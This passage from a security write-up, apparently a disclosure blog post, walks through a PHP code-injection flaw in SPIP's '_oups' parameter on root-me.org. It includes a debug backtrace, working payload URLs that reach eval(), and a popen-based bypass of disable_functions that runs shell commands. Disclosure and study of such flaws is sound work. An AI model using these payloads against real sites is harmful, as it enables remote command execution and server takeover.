 ```
#13 recuperer_fond(prive/squelettes/body, Array ([exec] => article,[id_article] => 1,[ajouter] => non,[tri_liste_aut] => statut,[deplacer] => oui,[_oups] => '<?php debug_print_backtrace();die();?>',[date] => 2020-05-29 12:34:09,[date_default] => 1,[date_redac] => 2020-05-29 12:34:09,[date_redac_default] => 1,[type-page] => article,[composition] => ,[lang] => en,[espace_prive] => 1), Array ([compil] => Array ([0] => ../prive/squelettes/structure.html,[1] => html_7335c83ff55eb313d2a61dfae0443fa4,[2] => ,[3] => 9,[4] => en),[trim] => 1), ) called at [/issue_4494/ecrire/public/evaluer_page.php(55) : eval()'d code:38]
#14 eval() called at [/issue_4494/ecrire/public/evaluer_page.php:55]
#15 include(/issue_4494/ecrire/public/evaluer_page.php) called at [/issue_4494/ecrire/public/assembler.php:657]
#16 evaluer_fond(prive/squelettes/structure, Array ([exec] => article,[id_article] => 1,[ajouter] => non,[tri_liste_aut] => statut,[deplacer] => oui,[_oups] => '<?php debug_print_backtrace();die();?>',[date] => 2020-05-29 12:34:09,[date_default] => 1,[date_redac] => 2020-05-29 12:34:09,[date_redac_default] => 1,[type-page] => article,[composition] => ,[lang] => en), ) called at [/issue_4494/ecrire/inc/utils.php:3258]
#17 recuperer_fond(prive/squelettes/structure, Array ([exec] => article,[id_article] => 1,[ajouter] => non,[tri_liste_aut] => statut,[deplacer] => oui,[_oups] => '<?php debug_print_backtrace();die();?>',[date] => 2020-05-29 12:34:09,[date_default] => 1,[date_redac] => 2020-05-29 12:34:09,[date_redac_default] => 1,[type-page] => article,[composition] => ,[lang] => en), Array ([compil] => Array ([0] => ../prive/squelettes/page.html,[1] => html_2282b1b56aa2fdb0410f3f69aba04c5e,[2] => ,[3] => 1,[4] => en),[trim] => 1), ) called at [/issue_4494/ecrire/public/evaluer_page.php(55) : eval()'d code:14]
#18 eval() called at [/issue_4494/ecrire/public/evaluer_page.php:55]
#19 include(/issue_4494/ecrire/public/evaluer_page.php) called at [/issue_4494/ecrire/public.php:157]
#20 include(/issue_4494/ecrire/public.php) called at [/issue_4494/ecrire/exec/fond.php:74]
#21 include_once(/issue_4494/ecrire/exec/fond.php) called at [/issue_4494/ecrire/inc/utils.php:1572]
#22 find_in_path(fond.php, exec/, 1) called at [/issue_4494/ecrire/inc/utils.php:151]
#23 include_spip(exec/fond) called at [/issue_4494/ecrire/inc/utils.php:81]
#24 charger_fonction(fond) called at [/issue_4494/ecrire/index.php:165]
```
1. Echo out the evaluated content to craft our payload\
Yellow: What I first aimed while auditing `eval()`, safe context\
Red: Where it got reflected and then, not-so-safe context\
```html
https://www.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='<?php debug_print_backtrace();die();?>
https://www.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups=%27%3C?php%20debug_print_backtrace();die();?%3E
```
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/reflected_oups.jpg" alt="reflected_oups">
<img class="img_med" src="/hacking/rce_on_spip_and_root_me/eval_debug.jpg" alt="eval_debug">
1. Spawn a phpinfo to see what is allowed / forbidden
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/phpinfo.jpg" alt="phpinfo">
1. Bypass the php disable_functions policieswith `popen` which wasn’t restricted // Edit, I probably just forgot to echo the result of shell_exec.. :)
```html
https://www.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='<?php echo fread(popen("id", "r"), 300);?>
https://www.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups=%27%3C?php%20echo%20fread(popen(%22id%22,%20%22r%22),%20300);?%3E
```
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/cmd_id.jpg" alt="cmd_id">
1. Profit?!
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/cmd_uname.jpg" alt="cmd_uname">
